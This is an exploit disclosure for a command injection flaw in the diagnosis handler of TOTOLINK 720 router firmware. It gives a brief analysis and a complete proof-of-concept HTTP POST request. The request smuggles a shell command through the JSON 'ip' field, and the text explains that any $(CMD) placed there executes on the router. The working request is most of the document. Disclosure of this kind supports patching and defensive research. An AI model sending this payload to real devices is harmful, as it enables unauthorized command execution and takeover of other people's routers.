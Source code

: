 Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  
Analysis Report:  
&emsp;&emspIn the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

&emsp;&emsp![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

&emsp;&emsp![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
&emsp;&emspJust write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  

POC：  
&emsp;&emspPOST /cgi-bin/cstecgi.cgi HTTP/1.1
&emsp;&emspHost: 192.168.0.1
&emsp;&emspContent-Length: 52
&emsp;&emspAccept: application/json, text/javascript, */*; q=0.01
&emsp;&emspX-Requested-With: XMLHttpRequest
&emsp;&emspUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
&emsp;&emspContent-Type: application/x-www-form-urlencoded; charset=UTF-8
&emsp;&emspOrigin: http://192.168.0.1
&emsp;&emspReferer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870
&emsp;&emspAccept-Encoding: gzip, deflate
&emsp;&emspAccept-Language: en-US,en;q=0.9
&emsp;&emspCookie: SESSION_ID=2:1591951611:2
&emsp;&emspConnection: close

&emsp;&emsp{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}
